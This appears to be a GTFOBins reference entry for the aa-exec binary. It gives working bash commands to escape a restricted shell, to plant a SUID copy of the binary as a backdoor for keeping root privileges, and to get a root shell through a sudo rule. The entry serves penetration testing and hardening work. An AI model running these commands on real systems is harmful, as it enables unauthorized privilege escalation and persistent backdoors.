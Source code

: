 ```yaml
---
title: "aa-exec"
author: GTFObins
date: 1970-01-01
categories: Tips
series: GTFObins
tags: [shell,suid,sudo]
toc: false
---
```


# Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```bash
aa-exec /bin/sh
```

# SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
sudo install -m =xs $(which aa-exec) .

./aa-exec /bin/sh -p
```

# Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
sudo aa-exec /bin/sh
```
